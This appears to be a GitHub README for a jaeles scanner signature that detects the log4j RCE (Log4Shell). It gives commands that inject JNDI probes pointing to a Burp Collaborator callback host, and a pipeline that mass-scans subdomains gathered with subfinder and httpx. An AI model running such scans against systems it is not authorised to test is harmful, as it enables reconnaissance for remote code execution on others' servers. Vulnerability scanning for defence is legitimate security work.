

# log4j_Signature

This signiture for automate `log4j RCE` via [jaeles](https://github.com/jaeles-project/jaeles) 

Run This command after installing [jaeles](https://github.com/jaeles-project/jaeles)
```javascript
jaeles scan -v -s jndi.yaml -p 'dest=XXxxx.burpcollaborator.net -u http://example.com
```
You can use it with [subfinder] and [httpx] 
```
subfinder -dL domains.txt -silent | httpx | jaeles scan -v -s jndi.yaml -p 'dest=XXxxx.burpcollaborator.net'
```

# POC

